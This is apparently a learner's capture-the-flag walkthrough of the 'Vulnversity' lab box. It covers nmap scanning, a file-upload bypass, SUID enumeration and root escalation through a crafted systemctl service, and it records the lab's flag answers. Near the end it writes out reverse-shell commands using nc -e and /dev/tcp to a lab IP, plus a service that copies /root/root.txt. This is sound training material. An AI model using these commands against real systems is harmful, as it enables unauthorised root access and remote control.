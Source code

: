 06/16/2025

# Vulnversity
Note: Box seemed very unstable and constantly dropping packets. Ping reponse is less than 70% even after waiting 10 mins. Grrr

# TASK 1

Fire up the box and wait a bit for pings to return
Create working folder and nmap folder

Setup IP variable for simplicity
Export IP=<ip address>
10.10.101.248

# TASK 2

Q. Scan the box; 
#Nmap scan
#nmap -sC -sV -oN nmap/initial $IP

Results

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 20:43 EDT                                    
Nmap scan report for 10.10.82.241                                                                  
Host is up (0.15s latency).                                                                        
Not shown: 994 closed tcp ports (reset)                                                            
PORT     STATE SERVICE     VERSION                                                                 
21/tcp   open  ftp         vsftpd 3.0.5                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)           
| ssh-hostkey: 
|   3072 74:13:9e:22:29:6c:fb:c3:5c:da:c7:80:94:4d:b4:63 (RSA)
|   256 ba:21:a7:b5:4b:38:13:88:27:1f:f1:01:de:48:c0:58 (ECDSA)
|_  256 30:d4:46:5e:ec:78:6d:d6:95:d1:65:0a:6d:b5:23:73 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-06-19T00:44:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-10-82-241, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.62 seconds

Q. How many ports are open?

A> 6

Q. What version of the squid proxy is running on the machine?

A.  4.10

Q. How many ports will Nmap scan if the flag -p-400 was used?

A. 400

Q. What is the most likely operating system this machine is running? 

A. Ubuntu

Q. What port is the web server running on?

A. 3333

Q. What is the flag for enabling verbose mode using Nmap?

A. -v

# TASK 3

Q. What is the directory that has an upload form page?

A. /internal/

# TASK 4

Q. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.

A. .php

Q. What extension is allowed after running the above exercise?

A. phtml

Q. What is the name of the user who manages the webserver?

A. bill

Q. What is the user flag?

A. 8bd7992fbe8a6ad22a63361004cfcedb

# TASK 5

Q. On the system, search for all SUID files. Which file stands out?

A. /bin/systemctl

find / -type f -perm -04000 -ls 2>/dev/null
   396628     44 -rwsr-xr-x   1 root     root        41552 Feb  6  2024 /usr/bin/newuidmap
   395578     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   396626     48 -rwsr-xr-x   1 root     root        45648 Feb  6  2024 /usr/bin/newgidmap
   396998    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   400521     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
   400524     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   419923     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   397803     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   400523     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   401943     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   397519    156 -rwsr-xr-x   1 root     root       159304 Jan 15 15:02 /usr/lib/snapd/snap-confine
   419925     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   397315    468 -rwsr-xr-x   1 root     root       477672 Apr 11 08:16 /usr/lib/openssh/ssh-keysign
   401528     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   396651     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   404935    848 -rwsr-xr-x   1 root     root         866448 Feb  3  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   133104     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /bin/su
   133153     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /bin/mount
   133154     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /bin/umount
   131094    976 -rwsr-xr-x   1 root     root         996584 Jun 17  2024 /bin/systemctl
   131086     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /bin/fusermount
      210    177 -rwsr-xr-x   1 root     root         180753 Apr  5 15:10 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /snap/core20/2582/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /snap/core20/2582/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /snap/core20/2582/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /snap/core20/2582/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /snap/core20/2582/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /snap/core20/2582/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /snap/core20/2582/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /snap/core20/2582/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /snap/core20/2582/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-network    51344 Oct 25  2022 /snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Apr 11 08:16 /snap/core20/2582/usr/lib/openssh/ssh-keysign
   393653     48 -rwsr-xr-x   1 root     root               48200 Apr  2 00:10 /sbin/mount.cifs

Q. What is the root flag value?

A. a58ff8579f0a9270368d33a9966c7fd5

https://gtfobins.github.io/gtfobins/systemctl/

Move to a writeable directory - I used /tmp

TF=$(mktemp).service

echo '[Service]

Type=oneshot

ExecStart=/bin/sh -c "id > /tmp/output"

[Install]

WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF

/bin/systemctl enable --now $TF

'We need to change the ExecStart command so I can create reverse shell as root. This is where my problems started...

Googling around I found 

ExecStart=/bin/sh -c "nc -e /bin/bash 10.2.57.121 9999"

'that didn't work. no -e option

ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.57.121/5555 0>&1'

'this didn't work either. "Bad fd number"

'More googling!

'Finally I gave up on reverse shell and just decided to cat out the file and redirect it to a new file in temp I could read

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"

That worked fine. 

REMINDER: I'll need to come back to this once I understand why nc -e isn't available and why bash has trouble with >&
